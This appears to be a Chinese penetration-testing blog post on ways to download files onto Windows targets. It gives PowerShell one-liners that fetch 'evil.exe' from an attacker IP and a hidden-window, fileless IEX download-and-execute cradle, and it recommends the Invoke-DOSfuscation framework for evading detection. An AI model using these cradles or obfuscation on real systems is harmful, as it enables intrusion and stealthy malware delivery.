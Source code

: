 ```yaml
---
title: windows文件下载常用方法
date: 2021-10-09 10:55:16
tags:
---
```


# windows文件下载常用方法



## 概述

在渗透过程中，通常会需要向目标主机传送一些文件，来达到权限提升、权限维持等目的，本篇文章主要介绍一些windows下常用的文件下载方式，以及一些可以bypass的姿势。





## Powershell

PowerShell是一种跨平台的任务自动化和配置管理框架，由命令行管理程序和脚本语言组成，与大多数接受并返回文本的 shell 不同，PowerShell构建在 .NET公共语言运行时 (CLR) 的基础之上，接受并返回.NET对象，这从根本上的改变引入了全新的自动化工具和方法。

远程下载文件到本地：

```
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.174.1:1234/evil.txt','evil.exe')

// 远程下载文件并执行，无文件落地
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://example.com/evil.txt'))"
```

针对于powershell常规的绕过方式有利用别名或者混淆来进行绕过，这里推荐一个工具Invoke-DOSfuscation。Invoke-DOSfuscation 是一个兼容 PowerShell v2.0+ 的 cmd.exe 命令混淆框架。（white paper：[DOSfuscation: Exploring the Depths of Cmd.exe Obfuscation and Detection Techniques | FireEye Inc](https://www.fireeye.com/blog/threat-research/2018/03/dosfuscation-exploring-obfuscation-and-detection-techniques.html)）

使用方法：

```
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git

cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
```



![image-20210907101040988](/img/image-20210907101040988-4138597.png)


